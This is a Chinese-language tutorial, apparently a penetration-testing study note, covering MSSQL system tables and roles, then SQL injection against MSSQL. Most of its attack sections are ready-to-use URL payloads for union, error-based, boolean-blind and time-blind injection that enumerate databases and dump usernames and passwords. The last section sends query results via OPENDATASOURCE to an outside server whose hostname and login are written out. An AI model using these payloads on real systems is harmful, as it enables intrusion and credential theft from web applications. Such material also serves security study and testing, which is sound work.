


# MSSQL基础

## 系统自带库

MSSQL安装后默认带了六个数据库

- 4个系统库：`master`、`model`、`tempdb`和`msdb`；

- 2个示例库：`NorthwindTraders`和`pubs`

| 系统自带库 | 功能                                                         |
| ---------- | ------------------------------------------------------------ |
| master     | 系统控制数据库，包含所有配置信息，用户登录信息，当前系统运行情况 |
| model      | 模板数据库，数据库时建立所有数据库的模板。                   |
| tempdb     | 临时容器，保存所有的临时表，存储过程和其他程序交互的临时文件 |
| msdb       | 主要为用户使用，记录着计划信息、事件处理信息、数据备份、警告以及异常信息 |

## 系统视图表

MSSQL数据库有安装的自带数据表：

| 视图表                     | 功能                                                  |
| -------------------------- | ----------------------------------------------------- |
| sysobjects                 | 记录了数据库中所有表，常用字段为id、name和xtype       |
| syscolumns                 | 记录了数据库中所有表的字段，常用字段为id、name和xtype |
| sys.databases              | SQL Server 中所有的数据库                             |
| sys.sql_logins             | SQL Server 中所有的登录名                             |
| information_schema.tables  | 当前用户数据库的表                                    |
| information_schema.columns | 当前用户数据库的列                                    |
| sys.all_columns            | 用户定义和系统对象的所有列的联合                      |
| sys.database_principals    | 数据库中每个权限或列异常权限                          |
| sys.database_files         | 存储在数据库中数据库文件                              |

## MSSQL权限控制

- 服务器角色

| 固定服务器角色             | 权限                                        |
| -------------------------- | ------------------------------------------- |
| sysadmin（最高服务器角色） | 执行SQL Server中的任何动作                  |
| serveradmin                | 配置服务器设置                              |
| setupadmin                 | 安装复制和管理扩展过程                      |
| securityadmin              | 管理登录和Create database的权限以及阅读审计 |
| processadmin               | 管理SQL Server进程                          |
| dbcreator                  | 创建和修改数据库                            |
| diskadmin                  | 管理磁盘文件                                |

可以通过如下语句判断：

```
select is_srvrolemember('sysadmin')
```



- 数据库角色

| 固定数据库角色        | 权限                                               |
| --------------------- | -------------------------------------------------- |
| db_owner（ 最高权限） | 可以执行数据库中所有动作的用户                     |
| db_accessadmin        | 可以添加、删除用户的用户                           |
| db_datareader         | 可以查看所有数据库中用户表内数据的用户             |
| db_datawriter         | 可以添加、修改、删除所有数据库中用户表内数据的用户 |
| db_ddladmin           | 可以在数据库注重执行所有DDL操作的用户              |
| db_securityadmin      | 可以管理数据库中与安全权限有关所有动作的用户       |
| db_backoperator       | 可以备份数据库的用户                               |
| db_denydatareader     | 不能看到数据库中任何数据的用户                     |
| db_denydatawriter     | 不能改变数据库中任何数据的用户                     |

可以通过如下语句判断：

```sql
select is_member('db_owner')
```



## MSSQL常用语句

```sql
# 创建数据库
create database [dbname];
create database test;

# 删除数据库
drop database [dbname];
drop database test;

# 创建新表
create table table_name (name char(10),age tinyint,sex int);
# 创建新表前要选择数据库，默认是master库 
use test; 
create table admin (users char(255),passwd char(255),sex int);

# 删除新表
drop table table_name;
drop table dbo.admin;

# 向表中插入数据
insert into table_name (column1,column2) values(value1,value2);
insert into admin (users,passwd,sex) values('admin','admin',1);

# 删除内容
delete from table_name where column1=value1;
delete from admin where sex=2;

# 更新内容
update table_name set column2=”xxx” where column1=value1;
update admin set users='admintest' where sex=2;

# 查找内容
select * from table_name where column1=value1;
select passwd from admin where users='admin';
```

```

```

- 排序&获取下一条数据
  - MSSQL数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，
  - 使用 <> 来排除已经显示的数据，获取下一条数据，也就是不等于的意思。
  - 使用not in来排除已经显示的数据，获取下一条数据 ，后面可以跟一个集合。

```sql
# 使用<>获取数据
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--+
# 使用not in获取数据
id=-2 union select top 1 1,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables)--+
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name not in('id','username')--+
```

## MSSSQL注释

```sql
单行：--空格
多行：/**/
```

## 常用函数

| 名称                  | 功能                                                         |
| --------------------- | ------------------------------------------------------------ |
| suser_name()          | 用户登录名                                                   |
| user_name()           | 用户在数据库中的名字                                         |
| user                  | 用户在数据库中的名字                                         |
| db_name()             | 数据库名                                                     |
| @@version             | 返回SQL服务器版本相关信息                                    |
| quotename()           | 在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行 |
| WAITFOR DELAY '0:0:n' | '时:分:秒'，WAITFOR DELAY '0:0:5'表示等待5秒后执行           |
| substring()           | 截取字符串 substr(字符串，开始截取位置，截取长度) ，例如substring('abcdef',1,2) 表示从第一位开始，截取2位，即 'ab' |

# 常见注入类型

## 联合查询注入

```sql
1.判断注入点及类型
?id=1' and 1=1--+
?id=1' and 1=2--+
# 那么此处是字符型注入，需要单引号闭合

2.判断字段数
?id=1' order by 3--+
?id=1' order by 4--+

3.联合查询判断回显点
?id=0' union select 1,2,3--+

4.获取当前数据库名字和版本信息
?id=0' union select 1,db_name(),@@version--+

5.获取所有的数据库名，database在较高版本的SQL Server 中已经变成了动态视图
?id=0' union select 1,db_name(),name from master.sys.databases where name not in(select top 1 name 
from master.sys.databases)--+

6.获取所有的表名，当information前面没有库名时，默认查询当前数据库，与mysql不同，每个数据库都有单独的information表，可以用master.information_schema.tables 来查询不同数据库的信息
?id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in
(select top 1 table_name from information_schema.tables)--+

7.获取所有的字段名，多加些限定条件方便注入
?id=0' union select top 1 1,2,column_name from information_schema.columns where column_name not in
(select top 1 column_name from information_schema.columns)--+

?id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and 
column_name not in(select top 2 column_name from information_schema.columns where table_name='users')--

8.获取users表账号密码信息
?id=0' union select top 1 1,username,password from users--+
```

## 报错注入

- MSSQL数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入

```sql
1.判断注入点
id=1

2.判断是否为MSSQL数据库
# 返回正常为MSSQL
id=1 and exists(select * from sysobjects)
id=1 and exists(select count(*) from sysobjects)

3.判断数据库版本号
id=1 and @@version>0--+
# @@version是mssql的全局变量，@@version>0执行时转换成数字会报错，也就将数据库信息暴露出来了,必须是在where后面拼接执行

4.获取当前数据库名
and db_name()>0--+
and 1=db_name()--+
# 报错注入的原理就是将其他类型的值转换层int型失败后就会爆出原来语句执行的结果

5.判断当前服务器拥有的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'))--+
and 1=(select IS_SRVROLEMEMBER('serveradmin'))--+
and 1=(select IS_SRVROLEMEMBER('setupadmin'))--+
and 1=(select IS_SRVROLEMEMBER('securityadmin'))--+
and 1=(select IS_SRVROLEMEMBER('diskadmin'))--+
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))--+

6.判断当前角色是否为DB_OWNER 
and 1=(select is_member('db_owner'))--+
# db_owner权限可以通过备份方式向目标网站写文件

7.获取当前用户名
and user_name()>0--+

8,获取所有数据库名
and (select name from master.sys.databases where database_id=1)>0--+
# 更改database_id的值来获取所有的数据库

9.获取数据库的个数 
and 1=(select quotename(count(name)) from master.sys.databases)--+

10.一次性获取所有数据库库
and 1=(select quotename(name) from master.sys.databases for xml path(''))--+

11.获取所有的表名 
# 获取当前库第一个表
and 1=(select top 1 table_name from information_schema.tables)--+
# 获取当前库第二个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails'))--+
# 获取当前库第三个表
and 1=(select top 1 table_name from information_schema.tables where table_name not in('emails','uagents'))--+
# 也可通过更改top 参数获取表
and 1=(select top 1 table_name from information_schema.tables where table_name not in
(select top 5 table_name from information_schema.tables))--+
# quotename和for xml path('')一次性获取全部表
and 1=(select quotename(table_name) from information_schema.tables for xml path(''))--+
# quotename()的主要作用就是在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行。

12.获取字段名
# 通过top 和 not in 获取字段
and 1=(select top 1 column_name from information_schema.columns where table_name='users')--+
and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in ('id','username'))--+
# 通过quotename 和 for xml path('') 获取字段
and 1=(select quotename(column_name) from information_schema.columns where table_name='emails' for xml path(''))--+

13.获取表中数据
and 1=(select quotename(username) from users for xml path(''))--+
and 1=(select quotename(password) from users for xml path(''))--+
```

## 布尔盲注 

```sql
1. 判断注入点  
and 1=1 and 1=2 and '1'='1' and '1456'='1456'--+

2.猜解数据库个数
id=1 and (select count(*) from sys.databases)=7--+        # 存在7个数据库

3.猜解数据库名长度 
id=1 and len((select top 1 name from sys.databases))=6--+ # 第一个库名长度为6
id=1 and len(db_name())=4--+                              # 当前数据库名长度为4

4.猜解数据库名
id=1 and ascii(substring(db_name(),1,1))=115--+ # 截取库名第一个字符的ascii码为115——s
id=1 and ascii(substring(db_name(),2,1))=113--+ # 截取库名第二个字符的ascii码为113——q
# 截取第一个库名第一个字符的ascii码为109——m
id=1 and ascii(substring((select top 1 name from sys.databases),1,1))=109--+
# 截取第二个库名第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 name from sys.databases where name not in ('master')),1,1))=105--+ 

5.猜解表名
# 截取当前库的第一个表的第一个字符的ascii码为101——e
id=1 and ascii(substring((select top 1 table_name from information_schema.tables),1,1))=101--+ 
# 截取当前库的第二个表的第一个字符的ascii码为117——u
id=1 and ascii(substring((select top 1 table_name from information_schema.tables where table_name not in ('emails')),1,1))=117--+

6.猜解字段名 
# 截取当前库的emails表的第一个字符的ascii码为105——i
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),1,1))=105--+
#截取当前库的emails表的第二个字符的ascii码为100——d 
id=1 and ascii(substring((select top 1 column_name from information_schema.columns where table_name='emails'),2,1))=100--+ 

7.猜解表中数据
# username字段的数据第一个字符为D
id=1 and ascii(substring((select top 1 username from users),1,1))=68--+
```

## 时间盲注

```sql
1.判断是否存在注入
id=1 WAITFOR DELAY '0:0:5'--+

2.判断权限
# 如果是sysadmin权限，则延时5秒
id=1 if(select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--+

3.查询当前数据库的长度和名字
# 二分法查询长度
id=1 if(len(db_name()))>40 WAITFOR DELAY '0:0:5'--+
# 查询数据库名字
# substring截取字符串的位置，用ascii转为数字进行二分法查询
id=1 if(ascii(substring(db_name(),1,1)))>50 WAITFOR DELAY '0:0:5'--+

4.查询数据库的版本 
id=1 if(ascii(substring((select @@version),1,1))=77 WAITFOR DELAY '0:0:5'--+ # ascii 77 = M

5.查询表个数,Sysobject 存储了所有表的信息，所有数据库的都放在一起
id=1 if((select count(*) from SysObjects where xtype='u')>5) WAITFOR DELAY '0:0:5'--+
# 当前数据库表的个数为6

6.查询第一个表的长度
# 查询第一个表
id=1 and select top 1 name from SysObjects where xtype='u' 
# 查询结果为1
(select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u')
# 利用and，进行判断，9为表长度的猜测
and len(name)=9
# 第一个表名长度为6
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=9)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=6)=1) WAITFOR DELAY '0:0:10'--+

7.查询第一个表的表名
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))>90)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))=101)=1) WAITFOR DELAY '0:0:5'--+

8.查询第二个表的长度
# 查询第一个表名，去除emails, emails为第一个表名
select top 1 name from SysObjects where xtype='u' and name not in ('emails')
# 同理，第三个表则 and name not in ('emails','uagents')
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emials')) and len(name)=6)<>0) WAITFOR DELAY '0:0:5'--+

9.查询第二个表的名字
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=0) WAITFOR DELAY '0:0:5'--+

10.查询第一个表中的字段
# and name not in ('')查询第二个字段的时候可以直接在其中，排除第一个字段名
id=1 if((select count(*) from syscolumns where name in (select top 1 name from syscolumns where id = object_id('emails') and name not in ('')) and ascii(substring(name,1,1))=1)！=0) WAITFOR DELAY '0:0:1'--+

11.查询字段类型 
id=1 if((select count(*) from information_schema.columns where data_type in(select top 1 data_type from information_schema.columns where table_name ='emails') and ascii(substring(data_type,1,1))=116)!=0) WAITFOR DELAY '0:0:5'--+

12.查询数据
# 查询所有数据库
SELECT Name FROM Master..SysDatabases ORDER BY Name
# 查询存在password字段的表名
SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password'
id=1 if((select count(*) from sysobjects where name in ((select name from sysobjects where name in (SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password') and ascii(substring(sysobjects.name,1,1))>1)))>0) waitfor delay '0:0:1'--
# 查询包含pass的字段名
SELECT top 1 name FROM SysColumns where name like '%pass%'
id=1 if((select count(*) from SysColumns where name in (SELECT top 1 name FROM SysColumns where name like '%pass%' and ascii(substring(name,1,1))>1))>0) waitfor delay '0:0:1'--
```

## 反弹注入

- 反弹注入条件相对苛刻一些，一是需要一台搭建了mssql数据库的vps服务器，二是需要开启堆叠注入。

- 反弹注入需要使用opendatasource函数。
  - OPENDATASOURCE(provider_name,init_string)
  - 使用opendatasource函数将当前数据库查询的结果发送到另一数据库服务器中。

- 基本流程

  - 连接vps的mssql数据库，新建表test，字段数与类型要与要查询的数据相同。

  ```sql
  CREATE TABLE test(name VARCHAR(255))
  ```

  - 获取数据库所有表，使用反弹注入将数据注入到表中，注意这里填写的是数据库对应的参数，最后通过空格隔开要查询的数据。

  ```sql
  # 查询sysobjects表
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.sysobjects where xtype='U' --+
  
  # 查询information_schema数据库
  ?id=1;insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select table_name from information_schema.tables--+ 
  
  # 查询information_schema数据库
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select column_name from information_schema.columns where table_name='admin'--+
  
  # 查询syscolumns表
  id=1;insert intoopendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.test select name from dbo.syscolumns where id=1977058079--+
  ```

  


